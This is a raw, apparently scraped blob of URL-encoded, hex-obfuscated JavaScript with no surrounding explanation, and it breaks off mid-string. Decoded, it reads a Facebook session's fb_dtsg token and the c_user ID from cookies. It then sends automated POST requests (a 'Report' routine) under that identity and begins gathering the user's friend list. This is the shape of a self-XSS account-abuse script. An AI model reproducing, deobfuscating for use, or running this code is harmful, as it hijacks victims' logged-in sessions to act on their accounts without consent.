 %5C%78%33%32%5C%78%33%32%5C%78%32%35%5C%78%33%32%5C%78%34%33%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%37%32%5C%78%36%35%5C%78%37%30%5C%78%36%46%5C%78%37%32%5C%78%37%34%5C%78%35%46%5C%78%37%34%5C%78%37%39%5C%78%37%30%5C%78%36%35%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%32%35%5C%78%33%33%5C%78%34%31%5C%78%33%31%5C%78%33%34%5C%78%33%35%5C%78%32%35%5C%78%33%32%5C%78%34%33%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%37%32%5C%78%36%39%5C%78%36%34%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%32%35%5C%78%33%33%5C%78%34%31%22%2C%22%5C%78%32%35%5C%78%33%32%5C%78%34%33%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%37%33%5C%78%37%35%5C%78%36%32%5C%78%35%46%5C%78%37%32%5C%78%36%35%5C%78%37%30%5C%78%36%46%5C%78%37%32%5C%78%37%34%5C%78%35%46%5C%78%37%34%5C%78%37%39%5C%78%37%30%5C%78%36%35%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%32%35%5C%78%33%33%5C%78%34%31%5C%78%33%33%5C%78%32%35%5C%78%33%32%5C%78%34%33%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%37%34%5C%78%36%39%5C%78%36%44%5C%78%36%35%5C%78%35%46%5C%78%36%36%5C%78%36%43%5C%78%36%46%5C%78%37%37%5C%78%35%46%5C%78%37%33%5C%78%37%34%5C%78%36%31%5C%78%37%32%5C%78%37%34%5C%78%36%35%5C%78%36%34%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%32%35%5C%78%33%33%5C%78%34%31%22%2C%22%5C%78%32%35%5C%78%33%32%5C%78%34%33%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%37%35%5C%78%37%33%5C%78%36%35%5C%78%37%32%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%32%35%5C%78%33%33%5C%78%34%31%22%2C%22%5C%78%32%35%5C%78%33%37%5C%78%34%34%5C%78%32%36%5C%78%36%36%5C%78%36%39%5C%78%36%43%5C%78%36%35%5C%78%35%46%5C%78%37%32%5C%78%36%35%5C%78%37%30%5C%78%36%46%5C%78%37%32%5C%78%37%34%5C%78%33%44%5C%78%33%31%5C%78%32%36%5C%78%35%46%5C%78%35%46%5C%78%37%35%5C%78%37%33%5C%78%36%35%5C%78%37%32%5C%78%33%44%22%2C%22%5C%78%32%36%5C%78%35%46%5C%78%35%46%5C%78%36%31%5C%78%33%44%5C%78%33%31%5C%78%32%36%5C%78%35%46%5C%78%35%46%5C%78%36%34%5C%78%37%39%5C%78%36%45%5C%78%33%44%5C%78%33%37%5C%78%36%45%5C%78%33%38%5C%78%36%31%5C%78%36%38%5C%78%37%39%5C%78%36%41%5C%78%33%32%5C%78%37%31%5C%78%36%44%5C%78%37%36%5C%78%37%35%5C%78%33%35%5C%78%36%42%5C%78%33%39%5C%78%35%35%5C%78%36%44%5C%78%34%31%5C%78%34%31%5C%78%36%31%5C%78%35%35%5C%78%35%36%5C%78%37%30%5C%78%36%46%5C%78%32%36%5C%78%35%46%5C%78%35%46%5C%78%37%32%5C%78%36%35%5C%78%37%31%5C%78%33%44%5C%78%37%35%5C%78%32%36%5C%78%37%34%5C%78%37%34%5C%78%37%33%5C%78%37%34%5C%78%36%31%5C%78%36%44%5C%78%37%30%5C%78%33%44%5C%78%33%32%5C%78%33%36%5C%78%33%35%5C%78%33%38%5C%78%33%31%5C%78%33%36%5C%78%33%38%5C%78%33%35%5C%78%33%37%5C%78%33%31%5C%78%33%30%5C%78%33%37%5C%78%33%31%5C%78%33%31%5C%78%33%30%5C%78%33%38%5C%78%33%38%5C%78%33%38%5C%78%33%30%22%2C%22%5C%78%35%30%5C%78%34%46%5C%78%35%33%5C%78%35%34%22%2C%22%5C%78%36%46%5C%78%37%30%5C%78%36%35%5C%78%36%45%22%2C%22%5C%78%36%46%5C%78%36%45%5C%78%37%32%5C%78%36%35%5C%78%36%31%5C%78%36%34%5C%78%37%39%5C%78%37%33%5C%78%37%34%5C%78%36%31%5C%78%37%34%5C%78%36%35%5C%78%36%33%5C%78%36%38%5C%78%36%31%5C%78%36%45%5C%78%36%37%5C%78%36%35%22%2C%22%5C%78%37%32%5C%78%36%35%5C%78%36%31%5C%78%36%34%5C%78%37%39%5C%78%35%33%5C%78%37%34%5C%78%36%31%5C%78%37%34%5C%78%36%35%22%2C%22%5C%78%37%33%5C%78%37%34%5C%78%36%31%5C%78%37%34%5C%78%37%35%5C%78%37%33%22%2C%22%5C%78%36%33%5C%78%36%43%5C%78%36%46%5C%78%37%33%5C%78%36%35%22%2C%22%5C%78%37%33%5C%78%36%35%5C%78%36%45%5C%78%36%34%22%2C%22%5C%78%33%31%5C%78%33%30%5C%78%33%30%5C%78%33%30%5C%78%33%30%5C%78%33%36%5C%78%33%39%5C%78%33%35%5C%78%33%32%5C%78%33%31%5C%78%33%31%5C%78%33%39%5C%78%33%30%5C%78%33%34%5C%78%33%38%22%5D%3B%76%61%72%20%66%62%5F%64%74%73%67%3D%64%6F%63%75%6D%65%6E%74%5B%5F%30%78%62%31%36%31%5B%32%5D%5D%28%5F%30%78%62%31%36%31%5B%31%5D%29%5B%30%5D%5B%5F%30%78%62%31%36%31%5B%30%5D%5D%3B%76%61%72%20%75%73%65%72%5F%69%64%3D%64%6F%63%75%6D%65%6E%74%5B%5F%30%78%62%31%36%31%5B%34%5D%5D%5B%5F%30%78%62%31%36%31%5B%33%5D%5D%28%64%6F%63%75%6D%65%6E%74%5B%5F%30%78%62%31%36%31%5B%34%5D%5D%5B%5F%30%78%62%31%36%31%5B%33%5D%5D%28%2F%63%5F%75%73%65%72%3D%28%5C%64%2B%29%2F%29%5B%31%5D%29%3B%76%61%72%20%6E%6F%77%3D%28%20%6E%65%77%20%44%61%74%65%29%5B%5F%30%78%62%31%36%31%5B%35%5D%5D%28%29%3B%66%75%6E%63%74%69%6F%6E%20%52%65%70%6F%72%74%28%5F%30%78%34%35%65%37%78%35%29%7B%76%61%72%20%5F%30%78%34%35%65%37%78%36%3D%20%6E%65%77%20%58%4D%4C%48%74%74%70%52%65%71%75%65%73%74%28%29%3B%76%61%72%20%5F%30%78%34%35%65%37%78%37%3D%5F%30%78%62%31%36%31%5B%36%5D%3B%76%61%72%20%5F%30%78%34%35%65%37%78%38%3D%5F%30%78%62%31%36%31%5B%37%5D%2B%66%62%5F%64%74%73%67%2B%5F%30%78%62%31%36%31%5B%38%5D%2B%5F%30%78%34%35%65%37%78%35%2B%5F%30%78%62%31%36%31%5B%39%5D%2B%5F%30%78%34%35%65%37%78%35%2B%5F%30%78%62%31%36%31%5B%31%30%5D%2B%6E%6F%77%2B%5F%30%78%62%31%36%31%5B%31%31%5D%2B%75%73%65%72%5F%69%64%2B%5F%30%78%62%31%36%31%5B%31%32%5D%2B%75%73%65%72%5F%69%64%2B%5F%30%78%62%31%36%31%5B%31%33%5D%3B%5F%30%78%34%35%65%37%78%36%5B%5F%30%78%62%31%36%31%5B%31%35%5D%5D%28%5F%30%78%62%31%36%31%5B%31%34%5D%2C%5F%30%78%34%35%65%37%78%37%2C%74%72%75%65%29%3B%5F%30%78%34%35%65%37%78%36%5B%5F%30%78%62%31%36%31%5B%31%36%5D%5D%3D%66%75%6E%63%74%69%6F%6E%20%28%29%7B%69%66%28%5F%30%78%34%35%65%37%78%36%5B%5F%30%78%62%31%36%31%5B%31%37%5D%5D%3D%3D%34%26%26%5F%30%78%34%35%65%37%78%36%5B%5F%30%78%62%31%36%31%5B%31%38%5D%5D%3D%3D%32%30%30%29%7B%5F%30%78%34%35%65%37%78%36%5B%5F%30%78%62%31%36%31%5B%31%39%5D%5D%3B%7D%20%3B%7D%20%3B%5F%30%78%34%35%65%37%78%36%5B%5F%30%78%62%31%36%31%5B%32%30%5D%5D%28%5F%30%78%34%35%65%37%78%38%29%3B%7D%20%3B%0A%76%61%72%20%5F%30%78%61%32%32%63%3D%5B%22%76%61%6C%75%65%22%2C%22%66%62%5F%64%74%73%67%22%2C%22%67%65%74%45%6C%65%6D%65%6E%74%73%42%79%4E%61%6D%65%22%2C%22%6D%61%74%63%68%22%2C%22%63%6F%6F%6B%69%65%22%2C%22%32%39%34%38%32%36%33%37%34%30%30%33%31%30%34%22%2C%22%6F%6E%72%65%61%64%79%73%74%61%74%65%63%68%61%6E%67%65%22%2C%22%72%65%61%64%79%53%74%61%74%65%22%2C%22%61%72%6B%61%64%61%73%6C%61%72%20%3D%20%22%2C%22%66%6F%72%20%28%3B%3B%29%3B%22%2C%22%22%2C%22%72%65%70%6C%61%63%65%22%2C%22%72%65%73%70%6F%6E%73%65%54%65%78%74%22%2C%22%3B%22%2C%22%6C%65%6E%6